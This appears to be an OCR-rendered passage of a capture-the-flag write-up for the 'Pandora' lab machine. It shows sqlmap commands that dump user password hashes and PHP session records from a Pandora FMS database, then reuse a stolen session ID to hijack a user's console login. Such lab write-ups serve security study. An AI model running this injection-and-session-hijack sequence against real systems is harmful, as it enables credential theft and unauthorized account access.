 ```bash
---

sqlmap -r pandora.req --batch -D pandora -T usuario --dump

```

Let's also try:

```bash
time sqlmap -r pandora.req --dump -D pandora --batch --thread 10
```

And see how long it take. We can look at the output using `less` by running:

```bash
less ~/.local/share/sqlmap/output/localhost/dump/pandora/tusuario.csv -S
```

- `-S`: line breaks.

Now we have:

```bash
matt@pandora.htb f655f807365b6dc602b31ab3d6d43acc
daniel@pandora.htb 76323c174bd49ffbbdedf678f6cc89a6
```

We can do:

```bash
sqlmap -r pandora.req --batch -D pandora -T tsessions_php --dump
```

To find out the sessions! We will take one:

```bash
| g4e01qdgk36mfdh90hvcc54umq | id_usuario|s:4:"matt";alert_msg|a:0:{}new_chat|b:0; | 1638796349  |
```

And put it in the URL, like so `http://localhost:8000/pandora_console/include/chart_generator.php?session_id=g4e01qdgk36mfdh90hvcc54umq` and refresh `http://localhost:8000/pandora_console/`. We get it!

![Screenshot from 2022-07-18 13-13-50](notes/images/Screenshot%20from%202022-07-18%2013-13-50.png)
